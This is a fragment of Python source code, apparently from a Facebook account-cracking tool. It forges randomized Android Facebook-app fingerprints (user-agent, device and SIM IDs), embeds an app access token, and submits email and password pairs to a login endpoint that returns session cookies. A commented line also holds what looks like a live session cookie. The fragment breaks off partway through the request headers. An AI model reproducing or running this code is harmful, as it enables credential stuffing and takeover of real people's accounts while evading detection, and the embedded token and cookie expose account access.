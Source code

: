                         ua = "Davik/2.1.0 (Linux; U; Android '+fbsv+'.0.0; '+model+' Build/'+''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(6))+' [FBAN/FB4A;FBAV/'+str(random.randint(111,555))+'.0.0.'+str(random.randrange(1,19))+'.'+str(random.randint(111,555))+';FBBV/'+str(random.randint(745000000,745999999))+';FBDM/{density=2.25,width=720,height=1452};FBLC/pl_PL;FBCR/T-Mobile.pl;FBMF/samsung;FBBD/samsung;FBPN/com.facebook.adsmanager;FBDV/'+model+';FBSV/4.4.4;nullFBCA/armeabi-v7a:armeabi;]"                              
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data = {
                                'adid':adid,
                                'format':'json',
                                'device_id':device_id,
                                'email':ids,
                                'password':pas,
                                'generate_analytics_claims':'1',
                                'credentials_type':'password',
                                'source':'login',
                                'error_detail_type':'button_with_disabled',
                                'enroll_misauth':'false',
                                'generate_session_cookies':'1',
                                'generate_machine_id':'1',
                                'fb_api_req_friendly_name':'authenticate',
                        }
                        headers = {
    'authority': 'www.facebook.com',
    'accept': '*/*',
    'accept-language': 'en-US,en;q=0.9,ur-PK;q=0.8,ur;q=0.7',
    'content-type': 'application/x-www-form-urlencoded',
    # 'cookie': 'sb=lkCBZHSYKeCS3UJz0hEmLSOx; c_user=100022483292193; dpr=2.1988937854766846; datr=jop9ZTBLpgxvDHQozCBGHYWR; xs=14%3AdmhvOusBEUfCuA%3A2%3A1702692401%3A-1%3A5898%3A%3AAcVvEaB9X4Z2BSXoVhRht2B-S7t9DBUyC-rlBfFBOg; presence=C%7B%22t3%22%3A%5B%5D%2C%22utc3%22%3A1703038718592%2C%22v%22%3A1%7D; fr=1YCQYYtIzaVa1Kzyp.AWXUSwx4WTzkXamYXkuwox_DZH4.Blgk74.X5.AAA.0.0.Blgk_3.AWXBq8f3DpA; wd=891x1684',
    'dpr': '2.19889',
    'origin': 'https://www.facebook.com',
    'referer': 'https://www.facebook.com/',
    'sec-ch-prefers-color-scheme': 'light',
    'sec-ch-ua': '"Not_A Brand";v="8", "Chromium";v="120"',
    'sec-ch-ua-full-version-list': '"Not_A Brand";v="8.0.0.0", "Chromium";v="120.0.6099.26"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-model': '""',
    'sec-ch-ua-platform': '"Linux"',
    'sec-ch-ua-platform-version': '""',
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': 'cors',
    'sec-fetch-site': 'same-origin',
    'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36',
    'viewport-width': '891',
    'x-asbd-id': '129477',